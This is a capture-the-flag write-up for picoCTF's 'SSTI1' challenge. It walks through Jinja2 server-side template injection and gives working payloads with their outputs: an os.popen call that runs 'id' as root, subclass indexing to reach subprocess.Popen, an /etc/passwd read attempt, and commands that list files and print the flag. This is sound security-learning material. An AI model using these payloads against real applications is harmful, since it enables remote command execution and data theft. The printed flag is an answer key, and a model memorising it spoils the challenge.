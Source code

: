 <h1> SSTI1 </h1>

From: https://play.picoctf.org/practice/challenge/492

Author: Venax

Description: I made a cool website where you can announce whatever you want! Try it out!

Tags: Easy, Web Exploitation, PicoCTF 2025, browser_webshell_solvable
---

Beginning of challenge:

Immediately after launching the challenge instance you are directed to a website with basic html and a prominent form to announce to the site.
![image](https://github.com/user-attachments/assets/d9dd00a3-09f9-4cb6-9dd2-df17e5687f33)

After entering a string to the form, the website directs you to an announce page with your input text displayed.
![image](https://github.com/user-attachments/assets/b52c3e2b-6229-4f52-bb75-4f2cce7b377e)

<details>
<summary> CONTINUE - SPOILERS </summary>
Directly changing your URL to this announce page doesn't yield results:
  
![image](https://github.com/user-attachments/assets/e3fa69cf-67f8-43e9-a89c-89bcbc10ebdc)

After some experimentation, I wasn't able to deduce whether this something SQL exploitable, and decided to take the hint from the PicoCTF instance. This revealed the exploit for this CTF is known as server-side-template injection.

The portswigger article: https://portswigger.net/web-security/server-side-template-injection describes this explot as __"when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side."__

After futher experimentation, and now understanding that string formatting is often performed using curly brackets {}, sending the server the a set of nested curly brackets {{}} resulted in an internal server error, error 500.

![image](https://github.com/user-attachments/assets/2b0066c4-0e89-49c9-b0a3-d1c87fede2b3)

When placing any plaintext within these braces, the error dissapears and completely blank HTML page is returned when the form is executed.

Based on the error returned, i thought it might be possible that this application is a Flask application, see: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application based searching the error text in Google.

To confirm server side execution ability, we sent {{7*7}} which resulted in the page showing me the numbers 49. This implies that anything we place within the double curly braces can be evaluated. 

Following along with the portswigger article, and the indentify section, we determine that this is framework is likely using Jinja2 because "The payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2."
![image](https://github.com/user-attachments/assets/1a2aee31-7607-4b5e-916c-16786617ba99)


Now that we know it is Jinja2, I found https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ to be useful for specifics regarding exploitation of this framework. Similarly, the Jinja docs were useful for referencing what the OnSecurity aricle was discussing: https://jinja.palletsprojects.com/en/stable/api/#jinja2.Environment

Sending: __{{global_name.__class__.__mro__}}__

- Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

Sending: __{{global_name.__class__.__base__}}__

- Returns: <class 'object'>

Sending: __{{g.__class__.__mro__}}__

- Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Sending: __{{g.__class__.mro()}}__

- Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: __{{g['__class__']['mro']()}}__

- Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: __{{g['__class__']['__mro__']}}__

- Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Furthermore from the OnSecurity article, I played around with some of the payloads discussed there...

Sending: __{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}__

- Returns: uid=0(root) gid=0(root) groups=0(root) 

From the developing an exploiut in https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#payload-development-from-0...
![image](https://github.com/user-attachments/assets/b23ae18f-6e68-48c6-8b1a-6632659c9392)

Sending: __{{get_flashed_messages}}__

- Returns: <function get_flashed_messages at 0x75e143dc5550>

Sending: __{{get_flashed_messages.__class__}}__

- Returns: <class 'function'>

Sending: __{{get_flashed_messages.__class__.__mro__}}__
- Returns: (<class 'function'>, <class 'object'>)

Sending: __{{get_flashed_messages.__class__.__mro__[1]}}__
- Returns: <class 'object'>

Sending: __{{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}__

- Returns: All the subclasses for the get_flashed_messages object subclass. It is very long so I haven't included it as plaintext... see:
![image](https://github.com/user-attachments/assets/b9684b62-ef29-4c30-b91b-4f48e44aa67a)

Sending: __{{g}}__

- Returns: <flask.g of 'app'>

Sending: __{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]}}__

- Returns: <class 'mappingproxy'>

Sending: __{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd')}}__

- Returns: /etc/passwd

Sending: __{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}__

- Returns: __Internal server error__


After a bit of further self experimentation, I took the 'app' name of the application and started parsing some similar dunder methods to it to see what was getting returned, maybe we can find our winfunction this way.

Sending: __{{app.__class__}}__

- Returns: <class 'jinja2.runtime.Undefined'>

Sending: __{{app.__class__.__mro__}}__

- Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

When sending: __{{app.__class__.__mro__[1].__subclasses__()}}__, I received all the subclasses again. However, this time I put it into my IDE and replaced all commas with newlines to better visualise it.
![image](https://github.com/user-attachments/assets/d53d70c7-0f86-4da5-a79a-df0aafcc8655)

After querying ChatGPT on where I should begin my investigations regarding vulnerable subclasses, I decided to hone in on <class 'subprocess.Popen'> and returned this by indexing the above function with [356]. 
>> {{app.__class__.__mro__[1].__subclasses__()[356]}}

Popen is expliotable because __"The popen() function shall execute the command specified by the string command. It shall create a pipe between the calling program and the executed command, and shall return a pointer to a stream that can be used to either read from or write to the pipe."__
from: https://pubs.opengroup.org/onlinepubs/009696799/functions/popen.html
![image](https://github.com/user-attachments/assets/d06d5171-459f-4511-9f12-c1688e3d9264)

We can now execute Popen through: __{{app.__class__.__mro__[1].__subclasses__()[356]}}__

For example, if we want to list the current directory, we can pass the linux commands ls to the args via a list:

Sending: {{app.__class__.__mro__[1].__subclasses__()[356](['ls', '-la], stdout=-1).communicate()[0].decode()}}

Returns:

<details>
<summary> ls output </summary>
total 12

drwxr-xr-x 1 root root    25 Apr 13 03:37 .

drwxr-xr-x 1 root root    23 Apr 13 03:37 ..

drwxr-xr-x 2 root root    32 Apr 13 03:37 __pycache__

-rwxr-xr-x 1 root root  1241 Mar  6 03:27 app.py

-rw-r--r-- 1 root root    58 Mar  6 19:43 flag

-rwxr-xr-x 1 root root   268 Mar  6 03:27 requirements.txt
</details>

Hooray! Success

It seems like we found the flag file. However, out of curiosity lets check out what the requirements.txt file is first.

<details>
<summary> requirements.txt output </summary>
ÿþblinker==1.8.2

click==8.1.7

colorama==0.4.6

Flask==3.0.3

itsdangerous==2.2.0

Jinja2==3.1.4

MarkupSafe==2.1.5

Werkzeug==3.0.3
</details>

Seems like just details for the application to run, maybe a docker thing?



<h3>Win</h3>
Lastly, lets using the linux read file command cat to open the flag file:

Sending: __{{app.__class__.__mro__[1].__subclasses__()[356](['cat', 'flag'], stdout=-1).communicate()[0].decode()}}__

- Returns __picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}__

---------------------------------------------------------------------------------------------------------------------

Applications used during CTF:
-Kali Linux (OS)
-Mozilla Firefox (Web Browser)
-Visual Studio Code

Core sources of information:
Portswigger: https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack
  - Overview of Server Side Template Injection

DigitalOcean: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application
  - Understanding some error handling characteristics of Flask applications

Jinja: https://jinja.palletsprojects.com/en/stable/templates/
  - Understanding templating documentation and implementation

PythonDocs: https://docs.python.org/3/library/subprocess.html#subprocess.Popen
  - Understanding Popen

ChatGPT: https://chatgpt.com/
  - Getting an overview of common vulnerable subclasses and understanding the syntax of parsing lists to the Popen function.

</details>


